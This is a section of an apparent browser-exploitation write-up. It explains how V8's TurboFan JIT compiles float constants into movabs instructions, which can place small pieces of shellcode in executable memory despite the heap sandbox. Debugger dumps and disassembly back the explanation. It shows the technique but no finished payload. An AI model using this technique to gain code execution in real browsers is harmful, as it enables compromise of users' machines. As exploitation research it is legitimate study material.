 ### 3.4. Writing Shellcode
There's just one more thing we need before we can get arbitrary code execution. We just need to find a way to write some shellcode to executable memory.

This is an interesting problem, especially since we can no longer write data outside of the heap via an ArrayBuffer object due to the heap sandbox, and since the previously very useful wasm `rwx` page is outside the sandbox.

This is actually solved fairly easily, because TurboFan JIT compiles immediate numbers (such as floats) into `movabs <reg>, <val>` instructions - we can use this to place small pockets of shellcode in executable memory.

Let's force TurboFan to compile a function that returns an array of floats. 
```js
const foo = () => {
  return [1.1, 2.2, 3.3, 4.4];
}

%PrepareFunctionForOptimization(foo);
foo();
%OptimizeFunctionOnNextCall(foo);
foo();

%DebugPrint(foo);
%SystemBreak();
```

One interesting thing to note is that the CodeDataContainer object has changed from a `BUILTIN CompileLazy` object to a `TURBOFAN` object. It's pretty clear that TurboFan has compiled this function.
```
DebugPrint: 0x301d0004ba31: [Function]
 - map: 0x301d00184241 <Map[28](HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x301d001840f5 <JSFunction (sfi = 0x301d00145df5)>
 - elements: 0x301d00002259 <FixedArray[0]> [HOLEY_ELEMENTS]
 - function prototype: <no-prototype-slot>
 - shared_info: 0x301d00199f95 <SharedFunctionInfo foo>
 - name: 0x301d00199ea5 <String[3]: #foo>
 - formal_parameter_count: 0
 - kind: ArrowFunction
 - context: 0x301d0019a07d <ScriptContext[3]>
 - code: 0x301d0019a1fd <CodeDataContainer TURBOFAN>
 - source code: () => {
  return [1.1, 2.2, 3.3, 4.4];
}
...
```

Viewing the instructions stored at the code entry point we can see that our immediate numbers have all been compiled to `movabs r10, <val>` instructions.

This is how we'll get arbitrary data into executable memory. The idea behind this technique is to chain these little pockets of controlled executable data into usable shellcode.
```
pwndbg> job 0x301d0019a1fd
0x301d0019a1fd: [CodeDataContainer] in OldSpace
 - map: 0x301d00002a71 <Map[28](CODE_DATA_CONTAINER_TYPE)>
 - kind: TURBOFAN
 - is_off_heap_trampoline: 0
 - code: 0x55cdc0004001 <Code TURBOFAN>
 - code_entry_point: 0x55cdc0004040
 - kind_specific_flags: 4
pwndbg> x/40i 0x55cdc0004040
...
   0x55cdc00040a7:	movabs r10,0x3ff199999999999a
   0x55cdc00040b1:	vmovq  xmm0,r10
   0x55cdc00040b6:	vmovsd QWORD PTR [rcx+0x7],xmm0
   0x55cdc00040bb:	movabs r10,0x400199999999999a
```